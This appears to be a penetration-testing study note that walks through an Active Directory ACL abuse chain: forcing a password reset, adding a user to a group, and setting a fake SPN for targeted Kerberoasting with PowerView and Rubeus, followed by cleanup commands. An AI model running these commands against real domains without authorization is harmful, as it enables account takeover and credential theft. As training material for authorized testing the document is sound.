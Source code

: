 ### Content
- Abuse `User-Force-Change-Password`
- Abuse `GenericWrite` over a group
- Abuse `GenericAll` to conduct targeted Kerberoasting attack 
---
After the enumeration, we gained a lot of information, now to perform the attack chain we have to do the following then clean up at the end.

<img src="/assets/acl_abuse_path.png" width="70%">

1. Use the `wley` user to change the password for the `damundsen` user by abusing the User-Force-Change-Password
	``` PowerShell
	# Login into the controlled user (wley), or create a PSCredential object for that user
	PS C:\> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
	PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\wley', $SecPassword) 
	# Create SecureString to set for the target user damundsen.
	PS C:\> $damundsenPassword = ConvertTo-SecureString 'new_password123@' -AsPlainText -Force
	# Import PowerView and use the Set-DomainUserPassword function
	PS C:\> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
	```

2. Authenticate as the `damundsen` user and leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group
	``` PowerShell
	# Creating a SecureString Object using damundsen
	PS C:\> $SecPassword = ConvertTo-SecureString 'new_password123@' -AsPlainText -Force
	PS C:\> $Cred2 = New-Object System.Management.Automation.PSCredential('DOMAIN\damundsen', $SecPassword)
	# Import PowerView and use the Add-DomainGroupMember function to add ourselves to the target group.
	PS C:\> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
	```

3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.
	``` PowerShell
	# Creating a SecureString Object using damundsen
	PS C:\> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='hacker/SERVICE'} -Verbose
	# Kerberoasting with Rubeus
	PS C:\> .\Rubeus.exe kerberoast /user:adunn /nowrap
	[SNIP]
	[*] SamAccountName         : adunn
	[*] DistinguishedName      : CN=Angela Dunn,OU=Server Admin,OU=IT......
	[*] ServicePrincipalName   : hacker/SERVICE
	[*] PwdLastSet             : 3/1/2022 11:29:08 AM
	[*] Supported ETypes       : RC4_HMAC_DEFAULT
	[*] Hash                   : $krb5tgs$23$*adunn$DOMAIN.LOCAL$hacker/SERVICE@DOMAIN.LOCAL*$ <SNIP>
	[SNIP]
	PS C:\> 
	```

4. Clean Up
``` PowerShell
# 1.Remove the fake SPN we created on the adunn user.
PS C:\> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
# 2.Remove the damundsen user from the Help Desk Level 1 group
PS C:\> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
# Confirming damundsen was Removed from the Group
PS C:\> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
# 3.Set the password for the damundsen user back to its original value (if we know it) or have our client set it/alert the user
```
---